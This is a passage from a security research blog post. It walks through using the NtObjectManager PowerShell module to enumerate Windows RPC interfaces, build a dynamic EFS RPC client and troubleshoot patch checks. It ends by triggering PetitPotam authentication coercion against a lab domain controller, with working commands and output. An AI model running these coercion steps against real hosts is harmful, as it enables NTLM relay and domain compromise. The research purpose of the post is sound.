FXSSVC.exe                                                   ea0a3165-4834-11d2-a6f8-00c04fa346cc 4.0 105   0   Fax                    False
lpasvc.dll                                                   4f4fa786-2f8f-49e8-8aae-6669febd5d1d 1.0 24    0   wlpasvc                False
lsasrv.dll                                                   12345778-1234-abcd-ef00-0123456789ab 0.0 134   0                          False
netprofmsvc.dll                                              bd6ca954-842e-468f-8b07-89cbfa9522dc 1.0 1     2   netprofm               True
pcasvc.dll                                                   0767a036-0d22-48aa-ba69-b619480f38cb 1.0 8     1   PcaSvc                 True
PimIndexMaintenance.dll                                      43890c94-bfd7-4655-ad6a-b4a68397cdcb 0.0 14    0   PimIndexMaintenanceSvc False
profsvc.dll                                                  326731e3-c1c0-4a69-ae20-7d9044a4ea5c 1.0 8     0   ProfSvc                True
rascustom.dll                                                650a7e26-eab8-5533-ce43-9c1dfce11511 1.0 40    4                          False
scesrv.dll                                                   93149ca2-973b-11d1-8c39-00c04fb984f9 0.0 34    0                          False
SessEnv.dll                                                  b12fd546-c875-4b41-97d8-950487662202 1.0 9     0   SessionEnv             True
spoolsv.exe                                                  12345678-1234-abcd-ef00-0123456789ab 1.0 125   2   Spooler                True

#several lines omitted...
```

After reviewing that output, you might select one of the interfaces and find out which specific *procedure* names match:

```powershell
PS C:\Users\user> $allrpc | ? { $_.InterfaceId -eq 'c681d488-d850-11d0-8c52-00c04fd90f7e' } | ForEach-Object {$_.Procedures} |  Out-String -Stream | Select-String file

Name             : EfsRpcOpenFileRaw_Downlevel
Name             : EfsRpcReadFileRaw_Downlevel
Name             : EfsRpcWriteFileRaw_Downlevel
Name             : EfsRpcEncryptFileSrv_Downlevel
Name             : EfsRpcDecryptFileSrv_Downlevel
Name             : EfsRpcQueryUsersOnFile_Downlevel
Name             : EfsRpcRemoveUsersFromFile_Downlevel
Name             : EfsRpcAddUsersToFile_Downlevel
Name             : EfsRpcSetFileEncryptionKey_Downlevel
Name             : EfsRpcFileKeyInfo_Downlevel
Name             : EfsRpcDuplicateEncryptionInfoFile_Downlevel
Name             : EfsUsePinForEncryptedFiles_Downlevel
Name             : EfsRpcAddUsersToFileEx_Downlevel
Name             : EfsRpcFileKeyInfoEx_Downlevel
Name             : EfsRpcGetEncryptedFileMetadata_Downlevel
Name             : EfsRpcSetEncryptedFileMetadata_Downlevel

```

#### Bonus - Procedure Parameters

You can even see what types of RpcServers accept specific types of parameters for their *procedures*:

Tab complete to see the options for types:
```powershell
PS C:\Users\user> $allrpc  | Select-RpcServer -SystemHandle -SystemHandleType
Composition  Event        File         Job          Mutex        Pipe         Process      RegKey       Section      Semaphore    Socket       Thread       Token
```

The query to find the interfaces that have procedures that accept the selected type:
```powershell
PS C:\Users\user> $allrpc  | Select-RpcServer -SystemHandle -SystemHandleType File

Name             UUID                                 Ver Procs EPs Service             Running
----             ----                                 --- ----- --- -------             -------
CmService.dll    f1c37891-201f-4aa3-94b1-a5d131b04920 1.0 46    1   CmService           True
dnsrslvr.dll     45776b01-5956-4485-9f80-f428f7d60129 2.0 29    0   Dnscache            True
FrameServer.dll  6ddfc7d1-7fca-44eb-a279-e9988f4db32b 1.0 32    0   FrameServer         False
PhoneService.dll 8be456ec-9244-4d10-88e8-1ddf1baa9ade 1.0 70    0   PhoneSvc            False
winhttp.dll      3473dd4d-2e88-4006-9cba-22570909dd10 5.1 12    2   WinHttpAutoProxySvc True
```

OK. We can use NtObjectManager to enumerate and discover RPC servers. What else can we do?


### Use NtObjectManager to decomplile an IDL File from the EFS RPC interface (used in PetitPotam)

#### From IDL to RPC binary
For those of you, like me, new to RPC and its concepts, RPC development (as I have [read](https://docs.microsoft.com/en-us/windows/win32/rpc/general-build-procedure)) usually begins with the [creation](https://docs.microsoft.com/en-us/windows/win32/rpc/using-midl#defining-an-interface-with-midl) of an interface definition file (IDL). This IDL file is input for the a [MIDL compiler](https://docs.microsoft.com/en-us/windows/win32/rpc/using-midl#compiling-a-midl-file) that generates the C/C++ client and server stubs necessary to support the RPC runtime and programming model of RPC.



The developer then needs to create their client and server code (client.c and server.c) and include the header generated by the MIDL compiler.  From there, compile the client and server with the MIDL output, link the RPC runtime libraries, and build the RPC server and client binaries. 



#### From RPC server to IDL 
In the last post we [studied](https://clearbluejar.github.io/posts/surveying-windows-rpc-discovery-tools/#ntobjectmanager) how to dig into those RPC server binaries to find RPC data structures that define interfaces and procedures. From this comes the idea that the original IDL file (that defines the interfaces and procedures) can be recreated (or *decompiled*) from those data structures.


RpcView uses the data structures (`RPC_SERVET_T` `RPC_INTERFACE_T`, etc.) to [build](https://github.com/silverf0x/RpcView/blob/master/RpcView/RpcView.cpp#L122) out its [`RpcDecompilerInfo_T`](https://github.com/silverf0x/RpcView/blob/66288f93663f91ede5143ce20fa556fb5cdcc3dc/RpcDecompiler/RpcDecompiler.h#L46) used to decompile its IDL files. It isn't perfect.

> When dealing with IDL files generated by RpcView, this kind of error should be expected as the “decompilation” process is not supposed to produce an 100% usable result, straight out of the box. With time and practice though, you can quickly spot these issues and fix them. [from-rpcview-to-petitpotam](https://itm4n.github.io/from-rpcview-to-petitpotam/#:~:text=When%20dealing%20with%20IDL%20files%20generated%20by%20RpcView%2C%20this%20kind%20of%20error%20should%20be%20expected%20as%20the%20%E2%80%9Cdecompilation%E2%80%9D%20process%20is%20not%20supposed%20to%20produce%20an%20100%25%20usable%20result%2C%20straight%20out%20of%20the%20box.%20With%20time%20and%20practice%20though%2C%20you%20can%20quickly%20spot%20these%20issues%20and%20fix%20them.)

NtObjectManager doesn't claim to be perfect either.

>Even if the decompiler was perfect (and RpcView or my own in my [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools) PowerShell module are definitely not) the original IDL to NDR compilation process is lossy. Reversing this process with a decompiler doesn't always produce a 100% correct IDL file and thus the regenerated NDR might not be 100% compatible. [Finding Windows RPC Client Implementations Through Brute Force](https://www.tiraniddo.dev/2018/11/finding-windows-rpc-client.html)

It does however claim to support a few more of the complex procedure parameters. 

> However, it’s \[RpcView\] all written in C/C++ so couldn’t be easily used in a .NET application and the IDL generation is incomplete (such as missing support for system handles and some structure types) and not ideal for our purposes as parsing a text format would be more complicated.  [Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

You can build your own IDL with `Format-RpcServer`.

```powershell
PS C:\Users\user> $efsrpc | Format-RpcServer
// DllOffset: 0x11880
// DllPath C:\Windows\system32\efslsaext.dll
// Complex Types:
/* Memory Size: 16 */
struct Struct_0 {
    /* Offset: 0 */ int Member0;
    /* Offset: 8 */ /* C:(FC_POINTER_CONFORMANCE)(0)(FC_ZERO)(FC_ULONG)(Early, Range) */ /* unique */struct Struct_1*[] Member8;
};

/* Memory Size: 32 */
struct Struct_1 {
    /* Offset: 0 */ int Member0;
    /* Offset: 8 */ /* unique */struct Struct_2* Member8;
    /* Offset: 16 */ /* unique */struct Struct_4* Member10;
    /* Offset: 24 */ /* unique */wchar_t* Member18;
};

/* Memory Size: 8 */
struct Struct_2 {
    /* Offset: 0 */ sbyte Member0;
    /* Offset: 1 */ sbyte Member1;
    /* Offset: 2 */ struct Struct_3 Member2;
    /* Offset: 8 */ /* C:(FC_NORMAL_CONFORMANCE)(-7)(FC_ZERO)(FC_USMALL)(Early) */ int[] Member8;
};

#several lines omitted
```

I tried compiling it (with the MIDL compiler), but it gave me the same errors that RpcView's decompiled IDL. The thing about NtObjectManager, although it has the ability to generate IDL files, but it isn't really necessary when using the tool. The reason being **it can [generate](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/5e00a851f88e735b95f059afd7e27e93f3b11752/NtApiDotNet/Win32/Rpc/RpcClientBuilder.cs#L1375) C# RPC clients on the fly**!

### Build a RPC client to flex the EFS RPC interface 

*Itm4n* walks through the creation of an RPC client [built with Visual Studio](https://itm4n.github.io/from-rpcview-to-petitpotam/#:~:text=Creating%20an%20RPC%20Client%20for%20the%20EFSRPC%20Interface). NtObjectManager obviates that entire step by dynamically building a client from the parsed `NtApiDotNet.Win32.RpcServer`. I would explain more of how this dynamic client generation works, but I'm still wrapping my head around this.  The [code](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/5e00a851f88e735b95f059afd7e27e93f3b11752/NtApiDotNet/Win32/Rpc/RpcClientBuilder.cs#L1294) says it is building (or compiling) a C# [assembly](https://docs.microsoft.com/en-us/dotnet/standard/assembly/) in memory. Within it's [`RpcClientBuilder`](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/5e00a851f88e735b95f059afd7e27e93f3b11752/NtApiDotNet/Win32/Rpc/RpcClientBuilder.cs#L32) class it has reference to the [`RpcServer`](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtApiDotNet/Win32/RpcServer.cs#L32) containing all the data parsed out from the RpcServer as we walked through before. The `RpcClientBuilder` initialization seems to parse out NDR types just as the RpcView decompiler code was doing. After that I get a bit lost, but it seems to dynamically [generate](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/5e00a851f88e735b95f059afd7e27e93f3b11752/NtApiDotNet/Win32/Rpc/RpcClientBuilder.cs#L1036) source code and then compile it.  Making it immediately [available](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/25b183136e9a44ed148a0616875d83d785ef46de/NtObjectManager/RpcFunctions.ps1#L565) in Powershell.

Accepting I don't understand it fully, let's head back to Powershell where we select our server once again.

#### Building a client

The client is built from the parsed RPC server.

```powershell
PS C:\Users\user> $efsrpc = $allrpc | ? { $_.InterfaceId -eq 'c681d488-d850-11d0-8c52-00c04fd90f7e' }
PS C:\Users\user> $efsrpc

Name          UUID                                 Ver Procs EPs Service Running
----          ----                                 --- ----- --- ------- -------
efslsaext.dll c681d488-d850-11d0-8c52-00c04fd90f7e 1.0 21    0           False


PS C:\Users\user> $client = Get-RpcClient $efsrpc
PS C:\Users\user> $client 


New              : _Constructors
NewArray         : _Array_Constructors
Connected        : False
Endpoint         :
ProtocolSequence :
ObjectUuid       : 00000000-0000-0000-0000-000000000000
InterfaceId      : c681d488-d850-11d0-8c52-00c04fd90f7e
InterfaceVersion : 1.0
Transport        :
```

After the client is built, we need to connect it to the RPC server to call the procedures.

```powershell
PS C:\Users\user> Connect-RpcClient $client
Exception calling "Connect" with "4" argument(s): "Can't find endpoint for c681d488-d850-11d0-8c52-00c04fd90f7e 1.0 with protocol sequence ncalrpc"
At C:\Program Files\WindowsPowerShell\Modules\NtObjectManager\1.1.33\NtObjectManager.psm1:14143 char:17
+ ...             $Client.Connect($ProtocolSequence, $EndpointPath, $Networ ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : ArgumentException
```

Well the error is pretty clear. From the `$client` output there was no endpoint or protocol derived from the parsing of the RPC server.

We can cheat for this because we have read  [@itm4n](https://twitter.com/itm4n) article or have browsed petitpotam code and we know that the efsrpc interface is available here:
-   ID of the interface: `c681d488-d850-11d0-8c52-00c04fd90f7e`
-   Protocol sequence: `ncacn_np`
-   Name of the endpoint: `\pipe\lsass`

So we try to connect to the client once more, this time passing in the binding information. 

```powershell
PS C:\Users\user> Connect-RpcClient -Client $Client -ProtocolSequence ncacn_np -EndpointPath "\pipe\lsass"
PS C:\Users\user> $client


New              : _Constructors
NewArray         : _Array_Constructors
Connected        : True
Endpoint         : \??\pipe\lsass
ProtocolSequence : ncacn_np
ObjectUuid       : 00000000-0000-0000-0000-000000000000
InterfaceId      : c681d488-d850-11d0-8c52-00c04fd90f7e
InterfaceVersion : 1.0
Transport        : NtApiDotNet.Win32.Rpc.Transport.RpcNamedPipeClientTransport


PS C:\Users\user> $client.Connected
True
```

You have to admit, if you are going for speed, you would use NtObjectManager instead of Visual Studio to build your client. :)

#### Flexing the interface to call the procedure

OK, now we have a connected RPC client. What procedures are available?

```powershell
PS C:\Users\user> $client | gm


   TypeName: Client

Name                                        MemberType Definition
----                                        ---------- ----------
Connect                                     Method     void Connect(NtApiDotNet.Win32.RpcEndpoint endpoint, NtApiDotNet.Win32.Rpc.Transport.RpcTransportSecurity transport_security), vo...
Disconnect                                  Method     void Disconnect()
Dispose                                     Method     void Dispose(), void IDisposable.Dispose()
EfsRpcAddUsersToFileEx_Downlevel            Method     int EfsRpcAddUsersToFileEx_Downlevel(int p0, System.Nullable[Struct_8] p1, string p2, Struct_5 p3)
EfsRpcAddUsersToFile_Downlevel              Method     int EfsRpcAddUsersToFile_Downlevel(string p0, Struct_5 p1)
EfsRpcCloseRaw_Downlevel                    Method     EfsRpcCloseRaw_Downlevel_RetVal EfsRpcCloseRaw_Downlevel(NtApiDotNet.Ndr.Marshal.NdrContextHandle p0)
EfsRpcDecryptFileSrv_Downlevel              Method     int EfsRpcDecryptFileSrv_Downlevel(string p0, int p1)
EfsRpcDuplicateEncryptionInfoFile_Downlevel Method     int EfsRpcDuplicateEncryptionInfoFile_Downlevel(string p0, string p1, int p2, int p3, System.Nullable[Struct_8] p4, int p5)
EfsRpcEncryptFileSrv_Downlevel              Method     int EfsRpcEncryptFileSrv_Downlevel(string p0)
EfsRpcFileKeyInfoEx_Downlevel               Method     EfsRpcFileKeyInfoEx_Downlevel_RetVal EfsRpcFileKeyInfoEx_Downlevel(int p0, System.Nullable[Struct_8] p1, string p2, int p3)
EfsRpcFileKeyInfo_Downlevel                 Method     EfsRpcFileKeyInfo_Downlevel_RetVal EfsRpcFileKeyInfo_Downlevel(string p0, int p1)
EfsRpcFlushEfsCache_Downlevel               Method     int EfsRpcFlushEfsCache_Downlevel()
EfsRpcGenerateEfsStream_Downlevel           Method     EfsRpcGenerateEfsStream_Downlevel_RetVal EfsRpcGenerateEfsStream_Downlevel()
EfsRpcGetEncryptedFileMetadata_Downlevel    Method     EfsRpcGetEncryptedFileMetadata_Downlevel_RetVal EfsRpcGetEncryptedFileMetadata_Downlevel(string p0)
EfsRpcNotSupported_Downlevel                Method     int EfsRpcNotSupported_Downlevel(string p0, string p1, int p2, int p3, System.Nullable[Struct_8] p4, int p5)
EfsRpcOpenFileRaw_Downlevel                 Method     EfsRpcOpenFileRaw_Downlevel_RetVal EfsRpcOpenFileRaw_Downlevel(string p1, int p2)
EfsRpcQueryRecoveryAgents_Downlevel         Method     EfsRpcQueryRecoveryAgents_Downlevel_RetVal EfsRpcQueryRecoveryAgents_Downlevel(string p0)
EfsRpcQueryUsersOnFile_Downlevel            Method     EfsRpcQueryUsersOnFile_Downlevel_RetVal EfsRpcQueryUsersOnFile_Downlevel(string p0)
EfsRpcReadFileRaw_Downlevel                 Method     EfsRpcReadFileRaw_Downlevel_RetVal EfsRpcReadFileRaw_Downlevel(NtApiDotNet.Ndr.Marshal.NdrContextHandle p0)
EfsRpcRemoveUsersFromFile_Downlevel         Method     int EfsRpcRemoveUsersFromFile_Downlevel(string p0, Struct_0 p1)
EfsRpcSetEncryptedFileMetadata_Downlevel    Method     int EfsRpcSetEncryptedFileMetadata_Downlevel(string p0, System.Nullable[Struct_8] p1, Struct_8 p2, System.Nullable[Struct_10] p3)
EfsRpcSetFileEncryptionKey_Downlevel        Method     int EfsRpcSetFileEncryptionKey_Downlevel(System.Nullable[Struct_6] p0, int p1, int p2)
EfsRpcWriteFileRaw_Downlevel                Method     int EfsRpcWriteFileRaw_Downlevel(NtApiDotNet.Ndr.Marshal.NdrContextHandle p0, byte[] p1)
EfsUsePinForEncryptedFiles_Downlevel        Method     int EfsUsePinForEncryptedFiles_Downlevel(Struct_4 p0, Struct_9 p1)
```

The original procedure [used](https://github.com/topotam/PetitPotam/blob/f30cd44112561807e746cccb1fec878aebeeac51/PetitPotam.py#L456) in PetitPotam was `EfsRpcOpenFileRaw`.  

The function signature for `EfsRpcOpenFileRaw` from the client says it only requires a `string` and an `int`. Easy enough to pass in a Powershell console. 

```c
EfsRpcOpenFileRaw_Downlevel_RetVal EfsRpcOpenFileRaw_Downlevel(string p1, int p2)
```

From [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) we know: 
```c
long EfsRpcOpenFileRaw(
  [in] handle_t binding_h,
  [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
  [in, string] wchar_t* FileName,
  [in] long Flags
);
```

Again taking a look at PetitPotam and *itm4n*'s example, we gather some specifics about the parameters. We just need to pass in a [UNC](https://docs.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) file [path](https://github.com/topotam/PetitPotam/blob/f30cd44112561807e746cccb1fec878aebeeac51/PetitPotam.py#L377) for*FileName* and [null](https://github.com/topotam/PetitPotam/blob/f30cd44112561807e746cccb1fec878aebeeac51/PetitPotam.py#L378) for the *Flags*. 

```powershell
PS C:\Users\user> $client.EfsRpcOpenFileRaw_Downlevel("\\127.0.0.1\C$\workspace\all-your-RPC-are-belong-to-NtObjectManger.txt",0)

p0                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0      5
```

Hmm. Handle 0.  retval 5. Does 5 == *ERROR_ACCESS_DENIED*?. Why??? 

**It took me four days to figure out why**! 

## Troubleshooting PetitPotam

There are a myriad of reasons any particular RPC call doesn't succeed. To make a remote procedure call, a client must first bind (or connect) to the server, and then call the procedure. To connect to an RPC server, there might be [security descriptor](https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-rpcserveruseprotseqep#:~:text=the%20Protseq%20parameter.-,SecurityDescriptor,-Pointer%20to%20an) with criteria your client doesn't meet, or specific server [interface registration flags](https://docs.microsoft.com/en-us/windows/win32/rpc/interface-registration-flags) might prevent your client from connecting remotely.  For the actual procedure to succeed, there might be a [security callback](https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-rpcserverregisterif2#:~:text=IfCallbackFn-,Security%2Dcallback%20function,-%2C%20or%20NULL%20for) function that you need to satisfy, or the RPC server might have its own custom checks built into the procedure itself. Ad hoc security checks, one of the changes to `efslsaext.dll`, is one of the many reasons our last attempt to call a procedure failed.

The reason our call to `EfsRpcOpenFileRaw_Downlevel` didn't work is because I am running this in 2022, and the `efslsaext.dll` (*10.0.22000.556*) has dramatically changed since the original PetitPotam (*10.0.22000.132*) and even since Forshaw gave us [detailed information](https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html#:~:text=the%20lsass%20pipe.-,The%20Fix%20is%20In,-What%20did%20Microsoft) about the first patch to PetitPotam (*10.0.22000.376*).

### EfsRpcOpenFileRaw_Downlevel - Local calls not allowed

The connection I made above was to my local machine, the result of not specifying a remote address.

```powershell
PS C:\Users\user> Connect-RpcClient -Client $Client -ProtocolSequence ncacn_np -EndpointPath "\pipe\lsass"
```

Several `Efs` calls include a security check call to `EfsRpcpValidateClientCall` that will fail the procedure if you call it from a local context.

```c
void EfsRpcpValidateClientCall(RPC_BINDING_HANDLE Binding, 
                               PBOOL ValidClient) {
  unsigned int ClientLocalFlag;
  I_RpcBindingIsClientLocal(NULL, &ClientLocalFlag);
  if (!ClientLocalFlag) {
    RPC_WSTR StringBinding;
    RpcBindingToStringBindingW(Binding, &StringBinding);
    RpcStringBindingParseW(StringBinding, NULL, &Protseq, 
                           NULL, NULL, NULL);
    if (CompareStringW(LOCALE_INVARIANT, NORM_IGNORECASE, 
        Protseq, -1, L"ncacn_np", -1) == CSTR_EQUAL)
        *ValidClient = TRUE;
    }
  }
}
```

Explained by @tiraniddo:

> Basically the `ValidClient` parameter will only be set to TRUE if the caller used the named pipe transport and the pipe wasn't opened locally, i.e. the named pipe was opened over SMB. This is basically all the security that's being checked for. Therefore the only security that could be enforced is limited by who's allowed to connect to a suitable named pipe endpoint.
> [How to secure a Windows RPC Server, and how not to](https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html)

OK, local calls won't work for any procedure that makes a call to `EfsRpcpValidateClientCall`. I will have to change the setup of my auditing. There was a remote procedure call that succeeded despite my client connection via *localhost*. It succeeded because the local check was absent and it simply returns a value.

{: .shadow }_EfsRpcFileKeyInfoEx decompilation Ghidra_

```powershell
PS C:\Users\user> $client.EfsRpcFileKeyInfoEx_Downlevel(2, $client.New.Struct_8(), 'test',1)

p4 retval
-- ------
       50
```

0x32 == 50

OK, for the procedure we care about, we can solve the local connect problem by connecting to a remote machine... or so I thought.

### NtObjectManager Cheats with Pipes

Here is an attempt to connect to a pipe on a remote machine:

```powershell
PS C:\Users\user> Connect-RpcClient -Client $client -StringBinding "ncacn_np:192.168.0.20[\\pipe\\lsass]"
Exception calling "Connect" with "2" argument(s): "(0xC000006D) - The attempted logon is invalid. This is either due to a bad username or authentication information."
At C:\Program Files\WindowsPowerShell\Modules\NtObjectManager\1.1.33\NtObjectManager.psm1:14161 char:17
+                 $Client.Connect($StringBinding, $security)
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : NtException
```    

Received the exception. `"The attempted logon is invalid. This is either due to a bad username or authentication information."`. Oh right, just need to add valid creds...

`-Credentials $(Get-LsaCredential -UserName "ABC" -Domain "DOMAIN" -Password "pwd")`

```powershell
PS C:\Users\user> Connect-RpcClient -Client $client -StringBinding "ncacn_np:192.168.0.20[\\pipe\\lsass]" -Credentials $(Get-LsaCredential -UserName "ABC" -Domain "DOMAIN" -Password "pwd")
Exception calling "Connect" with "2" argument(s): "(0xC000006D) - The attempted logon is invalid. This is either due to a bad username or authentication information."
At C:\Program Files\WindowsPowerShell\Modules\NtObjectManager\1.1.33\NtObjectManager.psm1:14161 char:17
+                 $Client.Connect($StringBinding, $security)
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : NtException
```

Still fails with valid credentials. It becomes a bit more clear looking at the attempted connection to the pipe over SMB.

{: .shadow }_SMB Pipe Connection Failure_

Even when you supply credentials to `Connect-RpcClient`, NtObjectManager doesn't use the username or password to [connect](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtApiDotNet/Win32/Rpc/Transport/RpcNamedPipeClientTransport.cs#L63) to the pipe. It "cheats" a bit by relying on [NtOpenFile](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtApiDotNet/Win32/Rpc/Transport/RpcNamedPipeClientTransport.cs#L34) to connect the pipe. SMB by default sends over your logged in user credentials when you call `NtOpenFile` with a UNC path. Impacket is [able to set creds](https://github.com/topotam/PetitPotam/blob/d83ac8f2dd34654628c17490f99106eb128e7d1e/PetitPotam.py#L345), but perhaps because it provides more low-level control of SMB? Again, this seems like an issue with the initial connection to the named pipe over SMB rather than NtObjectManager's ability to use the RPC named pipe [transport security](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtApiDotNet/Win32/Rpc/Transport/RpcConnectedClientTransport.cs#L47) on a *connected* client. Once connected, it properly leverages the RPC transport security and is able to [set](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtApiDotNet/Win32/Rpc/Transport/RpcConnectedClientTransport.cs#L49) RPC [authentication info](https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-rpcbindingsetauthinfo). To workaround the initial pipe connection issue, we need to setup a remote machine with an account matching that of our client machine. More on that in a bit.  

### EfsEnforceClientAuthentication - Ensure PACKET_PRIVACY

Yet another check was added to `EfsRpcpValidateClientCall` in `efslsaext.dll` (*10.0.22000.556*) to check for specific [*AuthInfo*](https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-rpcbindingsetauthinfo) settings for the RPC client connection.

```c
undefined8 EfsEnforceClientAuthentication(void)

{
  RPC_STATUS RVar1;
  undefined8 uVar2;
  undefined8 uVar3;
  ulong local_res8 [2];
  RPC_AUTHZ_HANDLE local_res10 [3];
  
  uVar3 = 0;
  local_res10[0] = (RPC_AUTHZ_HANDLE)0x0;
  uVar2 = 0;
  local_res8[0] = 0;
  RVar1 = RpcBindingInqAuthClientW
                    ((RPC_BINDING_HANDLE)0x0,local_res10,(RPC_WSTR *)0x0,local_res8,(ulong *)0x0,
                     (ulong *)0x0);
  if (RVar1 == 0) {
    // Check AuthenticationLevel == PACKET_PRIVACY
    if ((local_res8[0] != 6) && (uVar3 = 5, _DAT_18001a910 == 0)) {   
      fnEfsLogTrace1(uVar2,&EFS_CLI_AUTH_INSECURE,5,0x15,4);
      _DAT_18001a910 = 1;
    }
  }
  else {
    if (_DAT_18001a910 == 0) {
      fnEfsLogTrace1(uVar2,&EFS_CLI_AUTH_INSECURE,RVar1,0x15,4);
      _DAT_18001a910 = 1;
    }
    uVar3 = 5;
  }
  return uVar3;
}
```

Within the `EfsEnforceClientAuthentication` the Windows API, `RpcBindingInqAuthClientW` [parses](https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-rpcbindinginqauthclientw) authentication info from the client connection.

```c++
RPC_STATUS RpcBindingInqAuthClientW(
  RPC_BINDING_HANDLE ClientBinding,
  RPC_AUTHZ_HANDLE   *Privs,
  RPC_WSTR           *ServerPrincName,
  unsigned long      *AuthnLevel,
  unsigned long      *AuthnSvc,
  unsigned long      *AuthzSvc
);
```

This connection check ensures that the *AuthenticationLevel* is *PACKET_PRIVACY* (6) for the connection with this line:

`(local_res8[0] != 6)`

When we setup our initial connection, we did not specify any of the authentication level required by this check.

```powershell
PS C:\Users\testguy> Connect-RpcClient -Client $client -AuthenticationLevel PacketPrivacy
```

### EfsRpcOpenFileRaw_Downlevel Doesn't Exist

OK, so I have lied a bit. The reasons above for procedure call failure are true for most of the "downlevel" functions.

{: .shadow }_efslsaext downlevel functions_

Each procedure that actually provides useful functionality has added the ad hoc security via the `EfsRpcpValidateClientCall` check.  

{: .shadow }_EfsRpcpValidateClientCall-func-call-tree_

It just so happens for `efslsaext.dll` (*10.0.22000.556*) and later, they just remove the  `EfsRpcOpenFileRaw_Downlevel` procedure functionality.  

{: .shadow }_EfsRpcOpenFileRaw_Downlevel Decompliation from Ghidra_

For Server 2019 as well:

{: .shadow }_EfsRpcOpenFileRaw_Downlevel Server 2019 Decompliation from Ghidra_

Perhaps they have had enough of *Petitpotam*. Lucky for PetitPotam, other functions (such as `EfsRpcEncryptFileSrv_Downlevel`) that force NTLM relay are still available and a part of *PetitPotam* current [implementation](https://github.com/topotam/PetitPotam/blob/d83ac8f2dd34654628c17490f99106eb128e7d1e/PetitPotam.py#L391). 

{: .shadow }_EfsRpcEncryptFileSrv_Downlevel Decompliation from Ghidra_

### All Your RPC are belong to NtObjectManager
OK, just to see this work end to end, I setup a Server 2019 domain controller and updated original `efslsaext.dll` *10.0.17763.1* to *10.0.17763.2686*. This version is still vulnerable to *PetitPotam*. I had to create a domain user account to match that of my client to make sure my *NtObjectManager* dynamic client could still connect to the remote pipe despite the [hiccup](#ntobjectmanager-cheats-with-pipes).

And finally... 

```powershell
PS C:\Users\testguy> Connect-RpcClient -Client $client -StringBinding "ncacn_np:192.168.0.20[\\pipe\\lsass]" -AuthenticationLevel PacketPrivacy -AuthenticationType WinNT -Credentials $(Get-LsaCredential -UserName "testguy" -Domain "domain" -Password "password")

PS C:\Users\testguy\> $client

New              : _Constructors
NewArray         : _Array_Constructors
Connected        : True
Endpoint         : \??\UNC\192.168.0.20\pipe\lsass
ProtocolSequence : ncacn_np
ObjectUuid       : 00000000-0000-0000-0000-000000000000
InterfaceId      : c681d488-d850-11d0-8c52-00c04fd90f7e
InterfaceVersion : 1.0
Transport        : NtApiDotNet.Win32.Rpc.Transport.RpcNamedPipeClientTransport
```

We are connected. Let's try *PetitPotam* vulnerable procedures.
```powershell
PS C:\Users\testguy\> $client.EfsRpcOpenFileRaw_Downlevel('\\127.0.0.1\C$\Workspace\all-your-RPC-are-belong-to-NtObjectManger.txt',0)

p0                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0      5
```

The return value for `EfsRpcOpenFileRaw_Downlevel` is 5 as expected. 

```powershell
PS C:\Users\testguy\> $client.EfsRpcEncryptFileSrv_Downlevel('\\127.0.0.1\C$\test\all-your-RPC-are-belong-to-NtObjectManger.txt')
0
```

The call to `EfsRpcEncryptFileSrv_Downlevel` returns 0 and triggers Petitpotam. 

{: .shadow }_ProcMon PetitPotam evidence via NtObjectManager_

In the *Procmon* output, you can see the call to `CreateFile` from `lsass` running as `SYSTEM` on the UNC patch specified in your RPC call `EfsRpcEncryptFileSrv_Downlevel`. In this way, *PetitPotam* forces an arbitrary host to authenticate to another machine, best explained by *Itm4n*:

> Of course, the `NT AUTHORITY\SYSTEM` account cannot be used for network authentication. So, when invoking this procedure with a remote path on a domain-joined machine, Windows will actually use the machine account to authenticate on the remote server. This explains why “PetitPotam” is able to coerce an arbitrary Windows host to authenticate to another machine. [from-rpcview-to-petitpotam](https://itm4n.github.io/from-rpcview-to-petitpotam/#:~:text=Of%20course%2C%20the,to%20another%20machine.)

We made it!

## Conclusion

This concludes our journey into RPC auditing with NtObjectManager. If you made it this far, well done. It was a long trek, but hopefully you learned some things along the way.

